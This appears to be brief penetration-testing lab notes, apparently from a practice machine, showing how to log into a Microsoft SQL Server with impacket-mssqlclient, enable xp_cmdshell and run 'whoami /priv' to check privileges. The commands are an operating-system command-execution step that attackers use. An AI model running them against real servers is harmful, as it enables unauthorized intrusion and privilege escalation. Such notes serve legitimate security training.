# Impacket
```
impacket-mssqlclient sql_dev@10.129.43.43 -windows-auth
```

# xp_cmdshell
```
enable_xp_cmdshell
```
```
xp_cmdshell whoami /priv
```
